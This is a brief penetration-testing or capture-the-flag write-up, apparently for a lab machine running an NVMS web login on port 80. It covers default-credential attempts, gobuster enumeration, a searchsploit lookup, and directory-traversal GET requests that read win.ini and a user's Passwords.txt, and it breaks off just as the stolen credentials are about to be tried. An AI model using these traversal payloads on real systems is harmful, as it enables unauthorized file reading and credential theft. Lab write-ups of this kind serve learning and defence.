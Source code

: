 ## HTTP Footprinting on 80/tcp

\--> NVMS Login page

admin/admin --> Failed

Change Language

Cookie: lang\_type=0x0407$German\_Germany for Germany and lang\_type=0x0412 for Korean so it's changed but it's a cookie so complicated to get XSS

Login response is in form of XML

XXE (XML External Entity ?)

### Try Gobuster to browse other .htm pages

```
gobuster dir -u 'http://$TARGET/Pages/' -x htm -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt  -o gobuster.output
```

&#x20;-> everything put after Pages/ provide a 200 status code so it makes the use of gobuster complicated

## Looking for exploits

```
sudo apt update
sudo apt install searchsploit
sudo apt install exploitdb

searchsploit nvms

47774 -> Directory Traversal

searchsploit -x hardware/webapps/47774.txt

GET /../../../../../../../../Windows/win.ini
```

-> Inclusion of win.ini OK !

Attempt to a common file :&#x20;

```
GET /../../../../../../../../Users/Nathan/NTUSER.DATA
```

-> KO

```
GET /../../../../../../../../Users/Nathan/Desktop/Passwords.txt
```

-> OK

## Try to using creds
